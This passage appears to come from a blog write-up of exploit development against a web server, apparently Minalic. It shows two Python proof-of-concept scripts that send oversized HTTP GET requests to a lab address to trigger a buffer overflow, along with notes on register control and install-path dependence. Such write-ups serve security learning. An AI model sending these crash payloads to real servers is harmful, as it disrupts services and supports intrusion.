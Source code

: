 
* Proof of concept code

```
#!/usr/bin/python

import socket, time

host = "172.16.24.213"
port = 80

x=221
buffer =  "GET /" + x * "A" + " HTTP/1.1\r\nHost: 172.16.24.212\r\nUser-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
s.close()

print ("[+] Fuzzing complated")
```

* Result

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_04.png?raw=true)

Sadly, non of the registers is pointing to our payload, nor we can reach it with POP, POP, POP,… RET sequence. 

After little bit of googling and research it seems that exploit is dependent on location where application is installed on the disk. 

For example, for the same payload length:

```
#!/usr/bin/python
import socket

host = "172.16.24.213"
port = 80

x=253
buffer =  "GET /" + x * "A" + " HTTP/1.1\r\n"
buffer += "Host: " + 50 * "B" + "\r\n"
buffer += "User-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"
buffer += "C" * 360
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
s.close()
print ("[+] Fuzzing complated")
```
